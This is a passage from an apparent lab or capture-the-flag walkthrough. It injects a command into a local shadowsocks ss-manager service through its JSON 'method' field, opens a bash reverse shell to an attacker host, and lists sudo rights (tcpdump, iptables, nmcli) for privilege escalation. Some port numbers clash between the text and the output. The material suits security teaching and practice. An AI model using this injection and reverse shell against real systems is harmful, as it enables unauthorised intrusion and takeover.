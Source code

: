 ```bash
[nodeadmin@localhost ~]$ ps aux | grep fireman
ps aux | grep fireman
root       812  0.0  0.8 301464  4420 ?        S    23:41   0:00 su fireman -c /usr/local/bin/ss-manager
fireman    829  0.0  0.7  37060  3876 ?        Ss   23:41   0:00 /usr/local/bin/ss-manager
nodeadm+  1042  0.0  0.2 213788  1044 ?        S    23:45   0:00 grep --color=auto fireman
```

According to the specifications of the exploit, this must be run under the UDP port 8833, by listing the servicess we can verify that it is running on the specified port.

```bash
[nodeadmin@localhost ~]$ ss -ntlu
ss -ntlu
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
...
udp    UNCONN   0        0               127.0.0.1:8839           0.0.0.0:*     
...
```

On the attacking machine we start a netcat listener on port 1337, then on the victim machine we connect to UDP port 8839 and we run the following command to get a shell from the target machine.

```bash
[nodeadmin@localhost ~]$ nc -v -u 127.0.0.1 8839
nc -v -u 127.0.0.1 8839
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:8839.
add: {"server_port":8003, "password":"test", "method":"||bash -c 'bash -i >& /dev/tcp/192.168.179.1/1337 0>&1'||"}
```

Now, we have a shell as user fireman.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.1] 52707
bash: cannot set terminal process group (848): Inappropriate ioctl for device
bash: no job control in this shell
[fireman@localhost root]$ id
id
uid=1002(fireman) gid=1002(fireman) groups=1002(fireman)
[fireman@localhost root]$
```

This user has enabled run some binaries with sudo permissions, we will abuse tcpdump to escalate to root.

```bash
[fireman@localhost root]$ sudo -l
sudo -l
Matching Defaults entries for fireman on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
[fireman@localhost root]$
```
